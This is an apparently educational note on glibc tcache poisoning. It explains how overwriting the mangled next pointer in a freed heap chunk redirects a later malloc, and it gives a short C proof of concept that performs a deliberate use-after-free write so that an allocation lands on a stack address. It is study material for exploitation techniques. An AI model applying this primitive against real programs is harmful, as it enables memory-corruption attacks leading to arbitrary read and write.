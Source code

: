 ## tcache poisoning

**Purpose**: Get arbitrary write/read

**Details**: The tcache work on the principle of singly linked list. Each freed chunk contains a pointer to the next freed chunk. When we free a chunk, it is added to the head of the list. When we allocate a chunk, it is taken from the head of the list. So, if we can control the pointer in a freed chunk, we can control where the next allocation will be. One more thing to note is that the pointer in the freed chunk is mangled. The formula for mangling is:

```c
mangled_ptr = real_ptr ^ (chunk_addr >> 12);
```

## PoC

```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main() {
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);

    long x[0x10], *target, *a, *b, *c;

    for (int i = 0; i < 0x10; i++) {
        if ((((long)&x[i]) & 0xF) == 0)
        {
            target = &x[i];
            break;
        }
    }

    a = malloc(0x80);
    b = malloc(0x80);

    free(a);
    free(b);

    /* VULN HERE */
    b[0] = (long)target ^ ((long)b >> 12); // ptr mangling
    /* VULN HERE */

    malloc(0x80);
    c = malloc(0x80);

    assert(c == target);
}
```

